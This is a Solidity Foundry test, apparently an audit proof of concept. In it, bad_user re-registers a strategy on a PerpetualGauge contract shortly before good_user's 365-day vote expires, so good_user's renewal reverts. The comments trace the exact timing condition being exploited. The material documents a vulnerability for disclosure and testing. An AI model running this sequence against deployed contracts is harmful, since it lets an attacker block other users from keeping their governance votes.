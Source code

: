 ```solidity 




    /// @notice Go to the main contract at /src/PerpetualGauge.sol  in lines 60, 61, 62, 63
    /// @notice This `revert()` was added only to indicate that the vote renewal is frozen
    /// @notice📌 The reason for adding this is that no message was shown inside to indicate the failure to renew; otherwise, this revert has no effect on the function's behavior 

    ///@dev follow comments 👇🏽
    
    ///    forge test -vvvv

    function test_freeze_vote_by_registerNewStrategy() public {
            // Prepare vote input
            uint256[] memory sids=new uint256[](1);
            sids[0] = STID; // ID
            uint256[] memory wts=new uint256[](1);
            wts[0] = 100; // weight

        // There must be a strategy that the user can vote for
        gauge.registerNewStrategy(YieldTokenID, 999);

        //  good_user casts a vote
        vm.prank(good_user); // good user
        gauge.vote(YieldTokenID, sids, wts);
        // 365 days of user vote validity has started


        // Now 25 days remain for the good_user to extend their vote
        vm.warp(block.timestamp + 340 days);


        // But bad_user updates the strategy again, making all conditions of this line true  --------> if (lastAdded > 0 && block.timestamp - lastAdded < MIN_RESET_DURATION && timeLeft < MIN_RESET_DURATION)
        // so that good_user cannot extend their vote 
        vm.prank(bad_user);
        gauge.registerNewStrategy(YieldTokenID, 999);
        

        // Now good_user tries to extend their vote, but it fails because this condition is also true ----------> block.timestamp - lastAdded < MIN_RESET_DURATION

        vm.expectRevert(bytes("You cannot extend your vote due to the strategy being updated."));
        vm.prank(good_user);
        gauge.vote(YieldTokenID, sids, wts);
        


    }


}

```
